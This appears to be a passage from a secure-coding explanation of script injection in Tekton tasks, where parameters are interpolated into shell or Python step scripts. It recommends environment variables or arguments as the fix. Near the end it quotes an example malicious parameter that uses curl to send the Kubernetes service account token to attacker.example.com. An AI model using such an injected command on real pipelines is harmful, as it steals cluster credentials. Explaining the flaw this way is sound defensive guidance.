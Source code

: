 If `params.one` happens to contain a quote, then the resulting shell
script might look like this:

```
echo '
```

This script is not valid, and the task will fail:

```
sh: 1: Syntax error: Unterminated quoted string
```

This goes for standard shell scripts, python scripts or any other
script where tekton ends up interpolating variables.  Different
languages have different quoting rules in different contexts, but a
maliciously formed parameter would be able to break out of any
quoting.

No amount of escaping will be air-tight.  Even python `"""` strings.
A maliciously formed parameter just needs to include another `"""` to
close the string:

```
    script: |
      #!/bin/env python
      value = """$(params.one)"""
      print(value)
```

If the parameter has the value `"""` followed by a line break, then
the anything after the parameter's newline will be interpreted as
**python code**, probably causing the script to fail, or worse.

Instead, use environment variables or arguments, which are not
interpolated into the script source code:

```
  steps:
  - name: foo
    image: myimage
    env:
      - name: PARAM_ONE
        value: $(params.one)
    args:
      - $(params.one)
    script: |
      echo "$PARAM_ONE"
      echo "$1"
```

The script will now correctly print out the value of params.one,
regardless of what it contains; both environment variables and
arguments.

It is worth mentioning that an interpolated script (i.e. one that has
`$(params.values)` in it) is a security problem.  If an attacker is
able to send in a parameter value that looks something like `$(curl -s
http://attacker.example.com/?value=$(cat
/var/run/secrets/kubernetes.io/serviceaccount/token))`, then the
attacker would be able to exfiltrate the service account token for the
TaskRun.
